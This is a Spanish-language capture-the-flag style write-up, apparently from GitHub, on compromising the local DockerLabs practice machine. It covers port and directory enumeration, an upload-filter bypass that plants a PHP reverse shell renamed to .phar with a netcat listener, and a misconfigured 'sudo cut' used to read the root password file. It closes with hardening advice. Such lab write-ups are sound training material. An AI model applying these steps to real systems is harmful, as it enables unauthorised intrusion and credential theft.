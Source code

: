 # 🛡️ Informe de Pentesting - DockerLabs

---

## 📄 Información General

* **Máquina**: DockerLabs
* **Objetivo**: Obtener acceso root
* **Descripción**: Análisis completo de una máquina vulnerable desplegada con Docker, enfocándose en la enumeración, explotación y escalada de privilegios.

---

## ⚙️ 1. Despliegue de la Máquina

Primero, descargamos y extraemos la máquina vulnerable:

```bash
unzip dockerlabs.zip
```

Después, la desplegamos con el script automático:

```bash
sudo bash auto_deploy.sh dockerlabs.tar
```

![Despliegue](/DockerLabs/Imàgenes/Logo.png)

---

## 📶 2. Verificación de Conectividad

Hacemos ping a la IP de la máquina para asegurarnos de que está activa:

```bash
ping -c1 172.17.0.2
```

![Ping](DockerLabs/Imàgenes/Capturas.png)

---

## 🔍 3. Enumeración de Puertos con Nmap

Escaneamos todos los puertos para encontrar servicios activos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Nmap puertos](DockerLabs/Imàgenes/Capturas_1.png)

Extraemos los puertos encontrados usando un script personalizado:

```bash
extractPorts allPorts.txt
```

Luego realizamos un escaneo más profundo:

```bash
nmap -sC -sV -p 80 172.17.0.2 -oN target.txt
```

![Nmap detalle](DockerLabs/Imàgenes/Capturas_2.png)

---

## 🌐 4. Análisis Web

Accedemos al sitio en `http://172.17.0.2/`:

![Página principal](DockerLabs/Imàgenes/Capturas_4.png)

### 🔦 Fuzzing con Wfuzz

Buscamos directorios ocultos con:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://172.17.0.2/FUZZ
```

Se descubre `/uploads`.

![wfuzz](DockerLabs/Imàgenes/Capturas_6.png)

Ingresamos en:

```url
http://172.17.0.2/uploads/
```

![Uploads](DockerLabs/Imàgenes/Capturas_5.png)

### 🔎 Descubrimiento adicional con Gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Gobuster](DockerLabs/Imàgenes/Capturas_7.png)

Rutas identificadas:

* `/index.php`
  ![index](DockerLabs/Imàgenes/Capturas_9.png)
* `/uploads/`
  ![uploads](DockerLabs/Imàgenes/Capturas_8.png)
* `/upload.php`
  ![upload](DockerLabs/Imàgenes/Capturas_10.png)
* `/machine.php`
  ![machine](DockerLabs/Imàgenes/Capturas_11.png)

---

## 🐚 5. Carga de Web Shell (Reverse Shell)

El formulario en `/machine.php` indica que solo se aceptan archivos `.zip`. Usamos la técnica de **doble extensión**.

### 💾 Código PHP de reverse shell:

Obtenido desde:
[https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

Cambiamos la IP y el puerto y luego renombramos el archivo:

```bash
mv php-reverse-shell.php php-reverse-shell.php.zip
```

![Archivo cargado](DockerLabs/Imàgenes/Capturas_13.png)

El archivo se carga correctamente:

![Éxito](DockerLabs/Imàgenes/Capturas_14.png)
![Verificado en uploads](DockerLabs/Imàgenes/Capturas_15.png)

Pero al intentar ejecutarlo, no se activó la shell. Probamos cambiando la extensión a `.phar`:

```bash
mv php-reverse-shell.php.zip php-reverse-shell.phar
```

![Cambio a .phar](DockerLabs/Imàgenes/Capturas_19.png)

---

### 🎧 Escucha con Netcat

Antes de activar el archivo malicioso, iniciamos Netcat:

```bash
sudo nc -lvnp 443
```

![Netcat](DockerLabs/Imàgenes/Capturas_18.png)

Luego accedemos al archivo desde el navegador. ¡La shell se activa!

![Shell activa](DockerLabs/Imàgenes/Capturas_21.png)

---

## 🔐 6. Escalada de Privilegios

### 🧪 Revisión de permisos con `sudo -l`

```bash
sudo -l
```

Resultado:

```text
User www-data may run the following commands on dockerlabs:
    (ALL) NOPASSWD: /usr/bin/cut
```

Esto significa que el usuario `www-data` puede ejecutar el comando `cut` como root, sin necesidad de contraseña.

---

### 🔎 Exploración y descubrimiento de pistas

Buscamos archivos interesantes:

```bash
cd /opt/
cat nota.txt
```

Contenido:

> Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.

---

### ✂️ Explotación del permiso con `cut`

Aunque no podemos leer directamente el archivo, usamos `cut` con sudo para hacerlo como root:

```bash
sudo /usr/bin/cut -d "" -f1 /root/clave.txt
```

![Clave root](DockerLabs/Imàgenes/Capturas_22.png)

**¿Por qué funciona?**

* `cut` espera un delimitador, pero aquí se pasó uno vacío (`""`).
* Esto puede fallar en sistemas más estrictos, pero en este caso devolvió toda la línea del archivo (probablemente porque no había delimitadores).
* Así conseguimos leer **la clave root** sin permisos de lectura directos.

---

### 🔓 Acceso Root

Con la clave obtenida, accedemos como root:

```bash
su root
```

🎉 ¡Acceso total a la máquina!

---

## ✅ Conclusiones

| Fase               | Resultado                                                 |
| ------------------ | --------------------------------------------------------- |
| Escaneo de puertos | Descubierto puerto 80 (HTTP)                              |
| Análisis web       | Directorios `/uploads`, `/upload.php`, `/machine.php`     |
| Explotación        | Web shell vía `.phar` + reverse shell con Netcat          |
| Escalada           | Acceso a archivo root mediante `sudo cut` mal configurado |

---

### ⚠️ Recomendaciones de Seguridad

* **Nunca** otorgar permisos `sudo` sin contraseña a comandos como `cut`, `less`, `vim`, etc.
* Validar extensiones de archivo de forma segura (no solo por el nombre).
* Configurar entornos aislados y sin privilegios para aplicaciones web.
